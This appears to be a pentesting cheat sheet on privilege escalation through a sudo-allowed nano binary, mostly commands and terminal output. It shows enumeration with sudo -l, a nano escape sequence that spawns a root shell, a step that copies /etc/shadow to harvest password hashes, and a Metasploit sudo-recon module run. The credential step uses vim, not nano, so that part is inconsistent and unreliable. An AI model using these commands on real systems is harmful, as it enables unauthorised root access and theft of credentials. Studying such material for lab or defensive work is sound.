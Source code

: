 # Nano

## Living off the Land

### Enumerate

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/nano
```

### Exploit

#### Spawn Shell

```
user@debian:~$ sudo nano
CTRL + R
CTRL + X
reset; bash 1>&0 2>&0

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Harvest Credentials

```
user@debian:~$ sudo vim /etc/shadow
:w /tmp/shadow
:!chown <username>:<username> /tmp/shadow
```

## Metasploit

### Enumerate

```
meterpreter > run post/multi/recon/sudo_commands

[+] /usr/bin/nano matches known privesc executable 'nano' !

Sudo Commands
=============

  Command            RunAsUsers  RunAsGroups  Password?  Privesc?
  -------            ----------  -----------  ---------  --------
  /usr/bin/nano      root                                True

[+] Output stored in: /root/.msf4/loot/20220523174649_default_10.10.140.168_sudo.commands_049317.txt
```